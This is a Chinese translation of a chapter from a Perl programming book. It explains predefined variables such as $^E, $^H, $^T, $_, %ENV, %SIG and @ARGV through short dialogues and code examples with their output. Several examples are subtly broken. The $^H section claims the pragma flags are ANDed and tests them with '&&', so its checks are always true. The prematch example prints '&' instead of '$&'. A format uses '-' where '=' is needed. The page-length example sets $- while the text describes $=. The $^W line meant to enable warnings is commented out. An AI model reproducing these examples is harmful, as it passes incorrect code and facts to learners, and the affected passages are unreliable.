## $^C 编译开关

从 Perl v5.6.0 起，**$^C** 变量保存布尔值，用于指示 **-c** 开关是否处于启用状态。**-c** 开关使 Perl 仅编译而不运行脚本，从而允许你检查语法错误。如果 **$^C** 为真，则表示 **-c** 处于启用状态。

## $^D 当前调试标志

变量 **$^D** 保存当前调试标志的值。该变量保存的是你使用 **-D** 调试开关时设置的标志。（有关调试的更多详情，请参见第 *e2* 章。）

## $^E 操作系统相关的错误信息

大老板不知从哪里冒出来，咆哮道："我们需要更多的市场。""好的，"你说，心里琢磨着是否需要一个更具体的回答。"从明天开始，"大老板说，"我们将在五个新的操作系统上销售你们的 Perl 软件。""太好了，"你说，"Perl 在许多平台上都具有良好的通用性，差异很小。""比如什么？"大老板问。"嗯，"你说，"比如操作系统相关的错误信息。""去搞定它，"大老板说完，便在一团雪茄烟雾中走开了。你问道："现在该怎么办？"

你可以使用 **$^E**，因为这个预定义变量保存着与你当前所在操作系统相关的错误信息。

> **提示：** 目前，**$^E** 与 **$!** 相同，但在 VMS、OS/2、Win32 和 MacPerl 中除外。

此示例展示了不同的 Perl 和 MS-DOS 错误信息。如果我尝试使用 **File::Copy** 模块打开并复制一个不存在的文件，如下所示（有关文件处理的详情，请参见第 13 章），则 **$!** 会报告如下错误：

```perl
use File::Copy;
copy("nonexistent.pl","new.pl");  # Try to copy a nonexistent file.
print "$!\n";
```

> *No such file or directory*

这是通用的 Perl 错误；不过，你可以通过检查 **$^E** 来直接查看 MS-DOS 会报告的信息，如下所示：

```perl
use File::Copy;
copy("nonexistent.pl","new.pl");  # Try to copy a nonexistent file.
print "$!\n";
print "$^E\n";
```

> *No such file or directory*
> *The system cannot find the file specified*

> **提示：** 你的脚本正在哪个操作系统下执行？请参见本章后面的 "**$^O** 操作系统名称"主题以了解详情。

## $^F 最大 Unix 系统文件描述符

你在 Unix 中使用的另一个预定义变量是 **$^F**。它保存最大的 Unix 系统文件描述符（通常为 2）。你可以使用系统文件描述符来引用 Unix 中的文件和管道。

## $^H 当前语法检查

新手程序员说："编程正确性专员告诉我他的代码总是使用 **use strict 'vars'**。我怎么才能检查这种 pragma 是否在生效？""没问题，"你说，"只要检查 **$^H** 就行了。"

变量 **$^H** 保存着你通过 **use strict** 和其他 pragma 启用的当前语法检查集。根据生效的 pragma 不同，你会在 **$^H** 中找到以下值：

- 2 表示 **use strict 'refs'**
- 512 表示 **use strict 'subs'**
- 1024 表示 **use strict 'vars'**

如果你同时启用了多个 pragma，这些值会进行 **与** 运算，因此你可以用 **&&** 来逐个检测设置，如下例所示：

```perl
use strict 'vars';
use strict 'refs';
use strict 'subs';

if ($^H && 2 )     {print "You're using use strict 'refs'\n"};
if ($^H && 512 )   {print "You're using use strict 'subs'\n"};
if ($^H && 1024 )  {print "You're using use strict 'vars'\n"};
```

> You're using use strict 'refs'
> You're using use strict 'subs'
> You're using use strict 'vars'

## $^I 当前就地编辑值

Perl 允许你就地编辑文件，**$^I** 保存着 Perl 就地编辑扩展名的当前值。你可以通过将 **$^I** 设置为 **undef** 来禁用就地编辑。

## $^L 输出格式换页符

你与 Perl 格式一起使用的另一个预定义变量是 **$^L**。这个预定义变量保存 Perl 格式用于创建换页符的字符；默认值为 \f。这个预定义变量中的值是在每一页（第一页除外）的格式化输出之前插入的字符串。

## $^M 紧急内存缓冲区

在 Perl 中，内存耗尽是不可捕获的错误，但如果你的 Perl 版本编译时启用了此功能，Perl 可以使用 **$^M** 的内容作为紧急缓冲区。例如，如果 Perl 使用 **-DPERL_EMERGENCY_SBRK** 开关编译，你可以按如下方式分配一兆字节的紧急内存缓冲区：

```perl
$^M = ' ' x (2 ** 20);
```

## $^O 操作系统名称

"好吧，"新手程序员说，"大老板要我创建与平台无关的代码。但我的很多代码都*依赖*于平台。我必须进行大量的操作系统调用。""好的，"你说，"先检查 **$^O** 这个预定义变量，看看你的脚本正在哪个操作系统上运行。"

变量 **$^O** 保存当前 Perl 所构建的操作系统的名称。例如，在 Unix 下你可能会看到以下内容：

```perl
print $^O;
```

> *sunos*

> **提示：** 在 Unix 系统上，由于有人可能是手动构建的你的 Perl 包，这个变量最终可能保存的字符串与操作系统名称毫无关系，而是保存的本地系统本身的名称。这意味着你应该谨慎使用 **$^O**。

预构建的 Perl 移植版本通常不会有这个问题，例如在 Windows 上：

```perl
print $^O;
```

> *MSWin32*

> **提示：** 如何获取操作系统相关的错误信息？请参见本章前面的 "**$^E** 操作系统相关的错误信息"主题。

## $^P 调试支持

变量 **$^P** 保存 Perl 内部的调试支持配置。各个位的含义如下：

- *位 0* — 启用子程序进入/退出调试。
- *位 1* — 启用逐行调试。
- *位 2* — 关闭优化以方便调试。
- *位 3* — 保留数据以供交互式检查。
- *位 4* — 保留定义子程序的源代码行信息。
- *位 5* — 启动会话时开启单步执行。

你通常不会使用这些位来进行调试。设置此值中的位是 Perl 自身记住已设置哪些调试选项的方式。有关 Perl 调试的详情，请参见第 *e2* 章。

## $^R 最后一次正则表达式断言的结果

变量 **$^R** 保存最后一次成功执行的正则表达式断言的求值结果。在此示例中，我使用零宽度 (?{}) 断言在正则表达式中间执行一些 Perl 代码，然后通过打印 **$^R** 来显示该代码返回的结果：

```perl
$text = "text";
$text =~ /x(?{$variable1 = 5})/;
print $^R;
```

> 5

## $^S 解释器的状态——是否在 eval 内部

**$^S** 变量被 Perl 自身用于判断当前代码是否在 **eval** 语句内部执行。如果代码在 **eval** 内部执行，错误处理方式与在 **eval** 语句外部完全不同，因此这一区分非常重要。

从技术上讲，**$^S** 保存 Perl 解释器的当前状态。如果执行在 **eval** 语句内部，此值为真；否则为假。

```perl
if ($^S) {
    print "Inside eval.\n";
} else {
    print "Outside eval.\n";
}

eval {
    if ($^S) {
        print "Inside eval.\n";
    } else {
        print "Outside eval.\n";
    }
};
```

> Outside eval.
> Inside eval.

了解你的代码是否在 **eval** 内部非常有用，因为这关系到你代码产生的错误将如何被处理（例如，它们是否会是致命错误）。

> **提示：** 如果你在 **$SIG{__DIE__}** 或 **$SIG{__WARN__}** 信号处理程序中执行代码，**$^S** 变量将是未定义的，这些信号处理程序可以捕获错误。

## $^T 脚本开始运行的时间

大老板出现了。"我们现在要向客户收取软件使用费了，"大老板说，"每分钟一美元。""嗯，"你说。"确保你的程序记录它们运行了多长时间，"大老板说。你心想："那我该怎么做呢？"

你可以使用 **$^T** 预定义变量。该变量保存脚本开始运行时的时间，以自 1970 年初（称为*纪元*的标准 Unix 起始时间）以来的秒数计算。

看这个例子：

```perl
print $^T;
```

> 909178645

纪元秒数并不完全是你从手表上读取的那种时间。为了让这个数字更易读，可以使用 Perl 的 **localtime** 函数（除非你传入一个值，否则它返回当前时间）：

```
$s = localtime($^T);
print $s;
```

*Mon Apr  5 16:23:34 2000*

那么，如果你想追踪脚本运行了多长时间呢？可以使用 **$^T** 和 **time** 函数，该函数返回以纪元秒数表示的当前时间：

```
while (<>) {
    $time = time - $^T;
    print "You started this script $time seconds ago.\n";
}
```

*Hello*
*You started this script 2 seconds ago.*
*How long now?*
*You started this script 9 seconds ago.*
*OK*
*You started this script 11 seconds ago.*

> 提示：如果你只是想知道你的代码执行用了多长时间，请查看 Perl 的 **Benchmark** 模块。

### $^V 作为字符串的 Perl 版本

“好的，”新手程序员说，“Perl 从版本 5.6.0 开始改变了其版本编号方案。这对我有什么影响？”“嗯，”你可以说，“首先，你现在应该使用 **$^V** 来检查版本，而不是 **$]**。”

Perl 将其当前版本号存储在预定义变量 **$]** 中，作为一个数值。然而，对于 v5.6.0 引入的 Perl 编号方案来说，数值并不足够——例如，对于 Perl 5.6.1，它返回 5.006001——Perl 的创建者认为这还不够，因此他们引入了一个新的预定义变量 **$^V**。

这个变量以字符串形式保存当前版本，但不像 "5.6.1" 那样；相反，**$^V** 等于 **chr(5) . chr(6) . chr(1)**（其中 **chr** 函数是标准的 Perl 函数，它返回与你传入的字符码对应的字符）。为了创建可以与 **$^V** 比较的字符串，Perl 现在会自动将形如 v5.6.1 的字面字符串编码为正确的格式——事实上，如果你至少有三个由点分隔的数字，如 5.6.1，Perl 会自动编码这些字符串。使用这种新的自动编码，你可以像这样将 **$^V** 直接与各种版本号（如 5.6.1）进行比较：**if($^V eq v5.6.1)**。

> *提示：*你也可以使用语句 **use v5.6.1** 来检查 Perl 版本，这意味着除非当前 Perl 版本是 v5.6.1，否则 Perl 会生成错误。并且，你也可以使用这种语法：**use 5.6.1**。实际上，为了兼容性，你仍然可以使用原始编号系统检查旧版本号，如 **use 5.005_03**。

### $^W 警告开关的当前值

新手程序员说：“真希望我当初使用了 **-w** 开关。老板正在查看我的一个程序，它试图写入一个以只读方式打开的文件。这是 **-w** 开关检查的内容之一，程序崩溃了。”新手皱着眉头说：“我应该*总是*使用 **-w** 开关。”

变量 **$^W** 保存警告开关 **-w** 的当前值，真或假。如果你像这样使用 **-w** 开关，这个值就为真：

```
%perl -w warn.pl
```

如果 **-w** 开关未开启，这个例子会警告新手程序员：

```
if (!$^W) {
    print "You should use the -w switch.";
}
```

```
open FILEHANDLE, "<file.dat";
print FILEHANDLE "Hello!";
close FILEHANDLE;
```

如果在没有 **-w** 开关的情况下运行脚本，新手程序员会看到这种警告：

```
%perl writer.pl

You should use the -w switch.
```

事实上，你既可以读取也可以写入 **$^W**。你可以像这样自动开启 **-w** 开关，以查看开关未开启时不会看到的警告：

```
#$^W = 1;
```

```
open FILEHANDLE, "<file.dat";
print FILEHANDLE "Hello!";
close FILEHANDLE;
```

> Filehandle main::FILEHANDLE opened only for input at writer.pl line 5.

### $^X 可执行文件名

如果你想了解 Perl 可执行文件本身的名称，可以使用预定义变量 **$^X**。但请注意，Perl 并不特意以任何特定格式报告此名称。（事实上，它从 C 的 **argv[0]** 参数获取可执行文件的名称，该参数报告命令行中的程序名称。有关命令行参数的更多详细信息，请参阅本章后面的主题“**@ARGV** 命令行参数”。）这意味着你得到的结果会因系统而异。

例如，在 Unix 系统中你可能会看到类似这样的内容：

```
print $^X;
```

> /usr/bin/perl

或者，类似这样：

```
print $^X;
```

> /usr/bin/perl5

我使用的一个 Unix 系统只显示以下内容，甚至没有路径：

```
print $^X;
```

> perl

在 MS-DOS 系统上，你会看到类似这样的内容：

```
print $^X;
```

> C:\PERL\BIN\PERL.EXE

这里需要注意的是，你不应该期望 **$^X** 在不同系统之间保持一致，甚至也不期望它包含路径。你几乎只能期望返回的字符串中包含 **perl** 这个词，而既然你已经知道你的脚本是用 Perl 编写的，这就没什么价值了。

### ${^WARNING_BITS} 警告检查

从 Perl v5.6.0 开始，${^WARNING_BITS} 保存 **use warnings** 编译指示启用的当前警告检查集。有关警告检查的所有详细信息，请参阅 Perl 关于警告的文档。

### ${^WIDE_SYSTEM_CALLS} 宽字符系统调用

从 Perl v5.6.0 开始，${^WIDE_SYSTEM_CALLS} 是一个变量，它使 Perl 发起的系统调用能够使用系统原生的宽字符 API（如果此类 API 可用的话）（目前，这仅在 Windows 中实现）。

通常，此变量设置为 0（为了兼容早于 v5.6.0 的 Perl 版本），但如果系统支持用户可以设置的默认值，例如环境变量 $ENV{LC_CTYPE}，Perl 可能会将其设置为 1。如果你使用带有 Perl 的 -C 开关，也可以将 ${^WIDE_SYSTEM_CALLS} 设置为 1。

> *提示：你可以使用 **bytes** 编译指示在代码中覆盖 ${^WIDE_SYSTEM_CALLS}。*

### $_ 默认变量

> “我忘了，”新手程序员说，“$\_ 是干什么的来着？”你看着新手，“你在开玩笑吧？”新手微笑着说：“开个小玩笑。”

在所有 Perl 预定义变量中，$\_ 无疑是使用最频繁的。它是 Perl 中的默认变量，正如你所知，许多运算符和函数在你未指定其他变量时会使用这个变量。

在这个例子中，**while** 循环和 **print** 运算符使用 **$\_**，所以代码：

```
while ($_ = <>) {
    print $_;
}
```

等同于：

```
while (<>) {
    print;
}
```

## 第 10 章 预定义变量

当你习惯了使用 $\_ 工作时，编程会变得更容易——虽然对初学者来说可能更令人困惑。在下面这个例子中，每条语句都隐式地使用了 $\_：

```
while (<>) {
   for (split) {
      s/m/y/g;
      print;
   }
}
```

如果你读过第 6 章，你就会知道这个脚本将你输入的行拆分成单词，遍历这些单词，将所有的 m 转换为 y，并像这样打印结果。这里，我输入了 "them"，得到了 "they"：

```
%perl mtoy.pl

them
they
```

如果你显式地放入 $\_，这段代码会是什么样子？它看起来像这样（注意前面的代码没有显式的 $\_ 时多么简洁）：

```
while ($_ = <>) {
   for $_ (split / /, $_) {
      $_ =~ s/m/y/g;
      print $_;
   }
}
```

以下是一些 Perl 会使用 $\_ 的情况，即使你没有显式引用它：

- 许多一元函数，包括 **ord** 和 **int** 等函数，以及所有文件测试（除了 -t，因为 -t 默认为 **STDIN**）
- 如果你没有给出其他变量，**foreach** 循环中的迭代变量
- 当 **<FILEHANDLE>** 操作的结果在 **while** 测试中被测试时，用于存放输入记录的默认变量
- **map** 和 **grep** 函数中的迭代变量
- 模式匹配操作 **m//**、**s///** 和 **tr///**（当你在不使用 **=~** 运算符的情况下使用它们时）
- 许多列表函数，如 **print**

### $` 匹配前的字符串

“好吧，”新手程序员说，“我知道你可以使用正则表达式来匹配一个特定的单词，但我只是在我的文本中使用一个特定的单词作为标记。我能以某种方式获取匹配*之前*的所有文本吗？”“当然，”你说，“使用 $`。”

变量 $` 保存上次匹配之前的字符串，正如你在这个例子中看到的：

```
$text = 'earlynowlate';
$text =~ /now/;
print "Prematch: \"$`\" Match: \"&\" Postmatch: \"$'\"\n";
```

*Prematch: "early" Match: "now" Postmatch: "late"*

使用匹配前和匹配后的部分很有用，如果你像新手程序员一样，在文本中使用特定的字符序列作为标记，并且真正只对匹配之前或之后的字符串感兴趣。

*注意：此变量为只读。*

### $| 禁用缓冲

新手程序员叹了口气，“我写了一个 CGI 脚本，但我得到的全是错误。事实上，”新手说，“我使用的 Web 服务器以对程序员不友好而闻名。”“嗯，”你说，“你可以尝试一件事：将 $| 设置为真。”“那有什么作用？”新手问道。“当你将 $| 设置为真时，Perl 将禁用缓冲，这意味着你的脚本输出会立即显示给 Web 服务器；有些 Web 服务器需要这样，否则它们会产生问题，”你说。

当你将 $| 设置为真时，Perl 会刷新（写出）当前输出通道，并在每次写入或打印到该通道后执行相同的操作。你通常在使用管道时设置此变量，就像在这个例子中我使用 **autoflush** 方法一样（有关 **autoflush** 的更多信息，请参阅表 10.2；有关管道的更多详细信息，请参阅 CD-ROM 上的第 *e1* 章）：

```
pipe(READER, WRITER);
autoflush WRITER 1;
```

这个例子做了同样的事情：

```
pipe(READER, WRITER);
WRITER->autoflush(1);
```


### $~ 当前报告格式的名称

新手程序员大喊：“救命啊！” 你问道：“怎么了，NP（新手程序员）？” “我在处理Perl格式，”新手程序员说，“我该如何将一个格式与特定的文件句柄关联起来？” “嗯，”你说，“你需要使用`select`函数和预定义的`$~`变量。”

变量`$~`保存着当前输出通道的当前Perl报告格式的名称。（关于Perl格式的详细信息，请参阅第8章。）默认情况下，Perl格式与**STDOUT**文件句柄相关联，但通过使用`$~`，你可以将格式与其他文件句柄连接起来。

看看这个例子；在这个例子中，我通过设置预定义变量`$~`和`$^`，将两个格式——**standardformat**（用于主格式）和**standardformat_top**（用于页眉格式）——与一个文件句柄关联起来：

```
format standardformat_top =
                Employees
First Name  Last Name   ID      Extension
----------------------------------------
.

format standardformat =
@<<<<<<<<<<<<@<<<<<<<<<<<<@<<<<<<<<@<<<<
$firstname  $lastname   $ID      $extension
.

$firstname = "Cary"; $lastname = "Grant";
$ID = 1234; $extension = x456;

open FILEHANDLE, ">report.frm" or die "Can't open file";
select FILEHANDLE;
$~ = standardformat;
$^ = standardformat_top;
write;
close;
```

请注意，在设置**$~**和**$^**之前，你必须使用**select**函数将你想要格式化的文件句柄设置为默认输出通道。

这段示例代码创建了一个名为report.frm的文件，其中包含以下文本：

```
                        Employees
First Name  Last Name   ID      Extension
------------------------------------------
Cary        Grant       1234    x456
```

### $+ 最后一次括号匹配

“嗯，”新手程序员说，“我有一个正则表达式，其中有带括号的匹配备选项。” “有什么问题吗？” 你问。“嗯，”新手程序员说，“我有两个可以匹配的备选模式，每个模式都在括号内包含了匹配项，那么我应该使用哪个变量来获取匹配结果——`$1`还是`$2`？” “这很简单，”你说，“你应该使用`$+`。”新手程序员看起来很惊讶。

变量**$+**保存着最后一个*带括号的*（即括号括起来的）模式匹配结果（也称为*记忆*）。现在，看看这个例子：

```
$text = "Here is the text.";
$text =~ /(\w+) is the (\w+)./;
print $+;
```

text

为什么**$+**是个值得了解的好变量？如果你有一个同时使用了括号和备选模式的模式匹配，它会很有用，就像这样：

```
$text = 'ID: 1234 Moola: $5.99 Destination: Unknown';
$text =~ /Cash: \$(.*) Destination|Moola: \$(.*) Destination/;
```

在这个例子中，**$1**指的是第一个匹配项，**$2**指的是第二个匹配项。因为只有一个模式会匹配，那么你应该使用哪个变量——**$1**还是**$2**？这个问题可以通过使用**$+**来引用最后一个括号匹配项来解决：

```
$text = 'ID: 1234 Moola: $5.99 Destination: Unknown';
$text =~ /Cash: \$(.*) Destination|Moola: \$(.*) Destination/;
print "Amount = \$$+";
```

Amount = $5.99

*注意：此变量为只读。*

### $< 真实用户ID

“我在Unix系统上编写我的CGI脚本，”新手程序员说，“我想确保调用我的进程是合法的。我该如何检查这类事情呢？” “看看**$<**，”你说，“它保存着进程的真实uid（用户ID）。”

变量**$<**保存着当前进程的真实uid（用户ID），这主要只在Unix系统下有用。看看这个非常短的例子：

```
print $<;
```

*166*

通过**$<**，你可以确定一个进程的真实uid，这在你处理多进程应用程序时可能很有用。

> **提示：** 当你在CGI脚本中运行代码以检查安全性时，检查真实用户ID与有效用户ID可能很有用。

### $= 当前页面格式长度

当你处理Perl格式时（参见第8章），预定义变量**$=**保存着当前输出通道的页面长度，以文本行数计（默认值为60）。请注意，此页面长度不包括你为页面指定的任何页眉。

这个例子展示了我们在默认情况下已知的内容：

```
print $=;
```

*60*

如果你想在格式化方面将页面长度更改为其他值，只需为**$=**分配一个新设置。在这个例子中，我设置了一个格式和一个页眉格式，然后将页面长度设置为1，并写入两次。你可以在输出中看到两个单行页面，每个页面都有自己的页眉：

```
format standardformat_top -
@>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
"Page %$"

                              Employees
First Name   Last Name   ID         Extension
--------------------------------------------
.

format standardformat -
@<<<<<<<<<<<<@<<<<<<<<<<<<@<<<<<<<<@<<<<
$firstname   $lastname   $ID        $extension
.

$text = "Here is the data you asked for...";
$firstname = "Bertie";
$lastname = "Wooster";
$ID = 1234;
$extension = x456;

open FILEHANDLE, ">report.frm" or die "Can't open file";
select FILEHANDLE;
$~ = standardformat;
$^ = standardformat_top;
$- = 1;
write;
write;
```

| 名 | 姓 | ID | 分机号 |
| --- | --- | --- | --- |
| Bertie | Wooster | 1234 | x456 |

| 名 | 姓 | ID | 分机号 |
| --- | --- | --- | --- |
| Bertie | Wooster | 1234 | x456 |

### $> 有效用户ID

在Unix系统中，程序可以设置自己的有效用户ID，这一点在你运行CGI脚本时需要注意，特别是如果你让用户从CGI脚本执行系统命令（你不应该这样做）。你可以通过查看`$>`来检查进程是否在用户ID上搞了鬼。

变量**$>**保存着当前进程的有效uid（用户ID）；请注意，此变量主要只在Unix系统下有用。现在，看看这个非常短的例子：

```
print $>;
```

> 提示：当你在CGI脚本中运行代码以检查安全性时，检查真实用户ID与有效用户ID可能很有用。

### $0 脚本名称

“嗯，”新手程序员说，“大老板希望我编写可重用的代码，这些代码可以集成到其他应用程序中。” “这是个不错的主意，”你说。“嗯，”新手程序员说，“我的错误例程会打印它们所在文件的名称。我怎么知道别人在他们的文件中使用了我的代码呢？” “很简单，”你说，“只需使用`$0`。”

预定义变量**$0**（一个**$**和一个零，而不是大写*O*）保存着当前Perl脚本文件的名称。接下来的这个例子解决了新手程序员的问题：

```
$error = 1;
$errorline = 100;

if ($error != 0) {
    print "Error in $0 at line $errorline.";
}
```

> *Error in buggy.pl at line 100.*

> 提示：在某些操作系统上，你实际上可以为**$0**赋值，这会改变当前脚本名称的某些方面；但是，这通常不是一个好主意。

### $ARGV 当前<>输入文件的名称

变量**$ARGV**在你使用尖括号操作符**<>**读取时，保存着当前文件的名称。

例如，你可能会这样启动一个脚本：

```
%perl read.pl file.txt
```

在这种情况下，**$ARGV**保存着通过命令行传递给脚本的文件名：

```
$text = <>;
print $ARGV;
```

```
file.txt
```

### $n 模式匹配编号n

变量**$n**保存着与括号中第**n**个匹配项对应的模式匹配结果（也称为*记忆*）；更多信息请参阅第6章。

在这个例子中，我改变了一个字符串中单词的顺序：

```
$text = "no and yes";
$text =~ s/(\w+) (\w+) (\w+)/$3 $2 $1/;
print $text;
```

*yes and no*

现在，让我给你展示另一个例子，我从一个字符串中提取一个单词：

```
$text = "Perl is the subject.";
$text =~ /\b([A-Za-z]+)\b/;
print $1;
```

Perl

让我再添加一个例子，在这个例子中我创建了一个缩写：

```
$name = "United Perl Programmers";
$name =~ s/(\w)\w*/$1\./g;
print "The $name meeting will now come to order, maybe.";
```

The U. P. P. meeting will now come to order, maybe.

第6章包含更多关于此类模式匹配的信息。另见本章前面的主题“**$+** 最后一次括号匹配”。

注意：这些变量，**$1**、**$2**等，是只读的。

### %:: 主符号表（%main::）

新手程序员问道：“那么，Perl把程序中的所有符号存储在哪里？” “在主符号表中，”你说道。新手程序员问道：“我如何访问它？” “符号表是一个哈希，”你说，“它被称为**%main::**，或者简称为**%::**。”

主符号表保存着应用程序中主包（名为**main**）的符号；其他包将有自己的符号表（详见第18章）。你可以通过添加前缀来引用主包中的符号

在 **Xmain::** 中使用，其中 **X** 是适当的前缀解引用符，并且你可以在 **%main::** 中省略 **main**，因为 **main** 是默认包。

> **提示：** 事实上，任何包的符号表都是一个同名的哈希，并在名称后附加两个冒号。通常，你通过包名和名称来引用符号——例如 **$package::variable**。但是，如果引用的是当前包中的符号，使用包名和两个冒号是可选的。

看看这个例子；在这个例子中，你会看到你可以通过名称和前缀解引用符来引用一个变量，或者更准确地说，通过包（本例中是 **main** 包）、名称和前缀解引用，像这样：

```
$v = "Hello\n";

print $v;
print $main::v;
```

```
Hello
Hello
```

如果你想查看主符号表中有什么，可以在 **$::** 上使用 **keys** 函数，像这样（注意，符号表条目是类型glob，如你所见）：

```
foreach $key (keys %::) {
    print "$key => $::{$key}\n";
}
```

```
FileHandle:: => *main::FileHandle
@ => *main::@
stdin => *main::stdin
STDIN => *main::STDIN
" => *main::"
stdout => *main::stdout
STDOUT => *main::STDOUT
$ => *main::$
_<perlmain.c => *main::_<perlmain.c
_<a.pl => *main::_<a.pl
key => *main::key
ENV => *main::ENV
/ => *main::/
ARGV => *main::ARGV
0 => *main::0
STDERR => *main::STDERR
stderr => *main::stderr
DynaLoader:: => *main::DynaLoader
main:: => *main::main
DB:: => *main::DB
INC => *main::INC
_ => *main::_
```

这里你应该注意的一件事是，**main::** 可以递归作为符号的包名，这意味着你可以将前缀 **main::** 堆叠到任意深度，Perl 会明白你的意思：

```
$v = "Hello\n";

print $v;
print $main::v;
print $main::main::v;
```

```
Hello
Hello
Hello
```

## %ENV 环境变量

大老板回来了。"我们必须个性化我们的应用程序，"大老板说，"你知道，人性化的关怀。" "哦？"你问道。 "是的，"大老板说，"让你的程序按名字问候用户。" "嗯，"你问道，"这怎么可能？"

在某些情况下，你可以使用 **%ENV** 哈希，它保存当前的*环境*值，以获取有关你的脚本执行环境的信息。这个哈希中的键和值是操作系统相关的，但在 Unix 系统上，你可以使用键 **USER** 来获取当前用户的登录名，像这样：

```
print "Hello, $ENV{USER}!\n";
```

```
Hello, BigBoss!
```

那么，**%ENV** 里有什么？它因操作系统而异。然而，在 Unix 下，你可以期望以下类型的值：

```
while(($key, $value) = each(%ENV)) {
    print "$key => $value\n";
}
```

```
SHELL => /bin/csh
TERM => vt102
MANPATH => /usr/man:/usr/local/man
HOME => /export/users/username
PWD => /export/users/username/path
LOGNAME => username
PATH => /bin:/usr/bin:/usr/local/bin:/usr/ucb:/export/users/username/bin:.
NNTPSERVER => news
USER => username
```

而在 MS-DOS 中，你会期望类似这样的内容：

```
while(($key, $value) = each(%ENV)) {
    print "$key => $value\n";
}
```

```
PROMPT => $P$G
PROCESSOR_IDENTIFIER => x86 Family 6 Model 8 Stepping 6, GenuineIntel
TMP => C:\DOCUME~1\STEVEN~1\LOCALS~1\Temp
OS2LIBPATH => C:\WINNT\system32\os2\dll;
USERNAME => Steven Holzner
TEMP => C:\DOCUME~1\STEVEN~1\LOCALS~1\Temp
USERPROFILE => C:\Documents and Settings\Steven Holzner
USERDOMAIN => STEVE
HOMEDRIVE => C:
OS => Windows_NT
PATH => D:\Perl\bin\;
COMPUTERNAME => STEVE
SYSTEMROOT => C:\WINNT
COMSPEC => C:\WINNT\system32\cmd.exe
SYSTEMDRIVE => C:
WINDIR => C:\WINNT
PROCESSOR_LEVEL => 6
NUMBER_OF_PROCESSORS => 1
HOMEPATH => \
```

## %INC 包含的文件

哈希 **%INC** 为每个你用 **do** 或 **require** 语句包含的文件名都有一个条目。键是你指定的文件名，值是文件的位置。（事实上，Perl 本身使用这个哈希来检查文件是否已经被包含。）

查看这个 Unix 示例；注意你必须指定你包含的模块的整个文件名，包括文件扩展名：

```
require English;
print $INC{'English.pm'};
```

```
/usr/local/lib/perl/English.pm
```

## %SIG 信号处理器

新手程序员问，"我可以关闭 Perl 中的警告吗？" "某种程度上可以，"你说。 "为什么？" "我收到的警告太多了，"新手程序员说。你微笑着说，"看看 %SIG 哈希。"

进程可以在像 Unix 这样的环境中使用*信号*相互通信。你的脚本可以接收这些环境中的各种信号，你使用 %SIG 哈希将信号处理器与这些信号关联：

```
$SIG{'QUIT'} = sub {print "Got a quit signal.\n"};
```

下一个例子展示了如何通过将一个空的匿名子程序分配给 %SIG 哈希中的 __WARN__ 键来关闭警告报告（__WARN__ 在 Perl 中被称为信号*钩子*）：

```
$SIG{__WARN__} = sub {};
```

你也可以像这样显式地指示 Perl 忽略警告：

```
$SIG{__WARN__} = 'IGNORE';
```

并且，你可以像这样恢复此信号的默认行为：

```
$SIG{__WARN__} = 'DEFAULT';
```

现在，让我向你展示一种将警告变为致命错误的方法：

```
$SIG{__WARN__} = sub {die};
```

传递给匿名子程序的第一个参数是实际的警告文本本身，你可以像这样显示它：

```
$SIG{__WARN__} = sub {die "Warning: $_[0]"};
```

下一个例子展示了如何通过拦截 __DIE__ 钩子，在 **die** 函数被调用后执行一些最后的处理（脚本仍然会终止）：

```
$SIG{__DIE__} = sub {print "This script is about to die!\n"};
die;
```

```
This script is about to die!
Died at sig.pl line 3.
```

最后一个例子：这个脚本捕获你按下 Ctrl+C（发送 **INT** 信号）的情况，并打印"**嘿！**"（然后退出）：

```
$SIG{INT} = sub {print "Hey!"};
while(<>){}
```

## @_ 子程序参数

"好吧，"新手程序员说，"别告诉我……传递给子程序的参数出现在名为……的数组中。" 你期待地看着新手程序员。 "最好还是告诉我吧，"新手程序员说。

传递给子程序的参数被放入数组 @_ 中，你可以从中检索它们。在这个例子中，我显式地从 @_ 中取值：

```
sub addem
{
    $value1 = $_[0];
    $value2 = $_[1];
    print "$value1 + $value2 = " . ($value1 + $value2) . "\n";
}

addem(2, 2);
```

```
2 + 2 = 4
```

你也可以用其他方式从 @_ 获取值，比如使用 **shift**：

```
sub addem
{
    $value1 = shift @_;
    $value2 = shift @_;
    print "$value1 + $value2 = " . ($value1 + $value2) . "\n";
}

addem(2, 2);
```

```
2 + 2 = 4
```

在子程序中，**shift** 函数默认使用 `@_`，所以你可以像这样重写这段代码：

```
sub addem
{
    $value1 = shift;
    $value2 = shift;
    print "$value1 + $value2 = " . ($value1 + $value2) . "\n";
}

addem(2, 2);
```

```
2 + 2 = 4
```

你也可以像这样通过列表赋值一次性获取所有参数：

```
sub addem
{
    ($value1, $value2) = @_;
    print "$value1 + $value2 = " . ($value1 + $value2) . "\n";
}

addem(2, 2);
```

```
2 + 2 = 4
```

| 相关解决方案： | 位于页面： |
|---|---|
| 读取传递给子程序的参数 | 290 |
| 使用可变数量的参数 | 294 |
| 为参数设置默认值 | 295 |

## @ARGV 命令行参数

你正在为你的新程序 SuperDuperDataCrunch——新的数据库超级程序——做最后的修饰。你想到一个不错的想法，让用户指定他们想要使用的数据库文件名，这样他们就不必总是使用你编程中设置的默认文件名（superduperdatacrunchdatabase.sddc）。那么，如何让用户在命令行上向你的脚本传递参数呢？

你可以使用预定义变量 **@ARGV**。数组 **@ARGV** 保存传递给脚本的命令行参数（如果有的话）。看看这个例子：

```
%perl script.pl a b c d
```

如果脚本打印 **@ARGV** 的元素，在这种情况下你会看到以下结果：

```
print join (", ", @ARGV);
```

```
a, b, c, d
```

注意 **$ARGV[0]** 是传递给脚本的第一个参数，这意味着 **$#ARGV** 是参数数量减 1，而不是总参数数。更多细节请参见第 3 章，包括如何使用 **Getopt** 模块读取用户可能在命令行上指定的开关值。

| 相关解决方案： | 位于页面： |
|---|---|
| 读取命令行参数：@ARGV 数组 | 120 |

## @INC 用于求值的脚本位置

> "该死，"新手程序员说，"我写了一个新的 Perl 模块，但当我尝试用 **use** 语句包含它时，我的脚本找不到它。" "也许 Perl 在错误的地方查找，"你说，"检查你的 **@INC** 数组。" "那是什么？"新手程序员问。

**@INC** 数组（不要与 **%INC** 哈希混淆，后者保存你通过 **do** 或 **require** 包含的模块名称）保存了 Perl 脚本的查找位置列表，这些脚本将由 **do**、**require** 或 **use** 构造进行求值。这个 Unix 示例显示了 Perl 将要查找的位置：

```
print join (', ', @INC);
```

```
/usr/local/lib/perl/sun/5.6.1, /usr/local/lib/perl5,
/usr/local/lib/perl/site_perl/sun,
/usr/local/lib/perl/site_perl, .
```

| 相关解决方案： | 位于页面： |
|---|---|
| 创建模块 | 740 |
| 测试你的模块 | 760 |


## 第 11 章

